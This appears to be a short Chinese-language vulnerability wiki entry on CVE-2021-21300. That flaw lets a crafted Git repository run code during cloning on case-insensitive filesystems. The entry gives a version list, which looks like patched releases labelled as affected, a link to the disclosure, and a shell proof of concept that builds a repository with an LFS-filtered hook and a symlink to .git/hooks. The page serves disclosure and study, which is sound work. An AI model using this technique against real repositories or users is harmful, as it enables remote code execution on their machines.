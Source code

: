 # Git for Visual Studio远程执行代码漏洞 CVE-2021-21300

## 漏洞描述

此漏洞影响具有不区分大小写的文件系统的平台，当某些过滤器被使用时（例如Git LFS）。Git可能会被欺骗运行克隆期间的远程代码。

## 漏洞影响

```
v2.17.6
v2.18.5
v2.19.6
v2.20.5
v2.21.4
v2.22.5
v2.23.4
v2.24.4
v2.25.5
v2.26.3
v2.27.1
v2.28.1
v2.29.3
v2.30.2
```

## 漏洞复现

参考阅读: https://www.openwall.com/lists/oss-security/2021/03/09/3

## 漏洞POC

```bash
#!/bin/sh

git init delayed-checkout &&
(
  cd delayed-checkout &&
  echo "A/post-checkout filter=lfs diff=lfs merge=lfs" \
  	>.gitattributes &&
  mkdir A &&
  printf '#!/bin/sh\n\necho PWNED >&2\n' >A/post-checkout &&
  chmod +x A/post-checkout &&
  >A/a &&
  >A/b &&
  git add -A &&
  rm -rf A &&
  ln -s .git/hooks a &&
  git add a &&
  git commit -m initial
) &&
git clone delayed-checkout cloned
```